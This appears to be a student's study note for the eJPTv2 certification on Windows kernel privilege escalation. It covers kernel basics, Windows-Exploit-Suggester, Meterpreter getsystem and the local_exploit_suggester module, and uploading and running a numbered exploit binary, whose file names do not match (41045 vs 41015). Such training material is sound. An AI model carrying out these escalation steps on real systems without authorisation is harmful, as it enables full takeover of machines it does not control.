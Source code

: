 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/System - Host Based Attacks/Windows Privilege Escalation/Windows Privilege Escalation]]"
tools:
  - "[[Windows-Exploit-Suggester]]"
---
```


# Windows Kernel Exploits

## Privilege Escalation introduction

Privilege Escalation: process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another.

- PE is a vital element of the attack life cycle
- PE is done after gaining an initial foothold on a target system

## Windows Kernel

- Kernel is the core of an OS and has complete access of every resources and hardware
- It is the translation layer between hardware and software
- Windows NT is the kernel pre-packaged with all Windows versions
	- User mode: Programs and services running in user mode have limited access to system resources and functionality
	- Kernel mode: Unrestricted access to system resources and functionality

## Kernel Exploitation

- This process differs based on the version of Windows being targeted
- Typical methodology:
	- Identify kernel vulnerabilities
	- Downloading, compiling and transferring kernel exploits into the target system

## Tools & Environment

- Windows-Exploit-Suggester
	- Tool used to detect potential missing patches or usable metasploit modules
- Windows-Kernel-Exploits
	- Collection of Windows Kernel Exploits sorted by CVE

## Demonstration

### Using Metasploit

We already have a shell on the target machine.

```bash
$ getuid
$ getprivs
# auto try to PE
meterpreter > getsystem
```

```bash
# auto detect PE vectors
> use post/multi/recon/local_exploit_suggester
> set session <id>
```

### Manually

Using Windows-Exploit-Suggester:

1. First copy the output of the `systeminfo` command in a text file
2. Clone the tool repository

```bash
cd Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database <db_file.xls> --systeminfo <sysinfo.txt>
```

Look at the list of suggestions.

Upload your exploit on the target machine:

```bash
> cd C:\\Temp
> upload 41045.exe
> shell
>.\41015.exe 7
>whoami
```
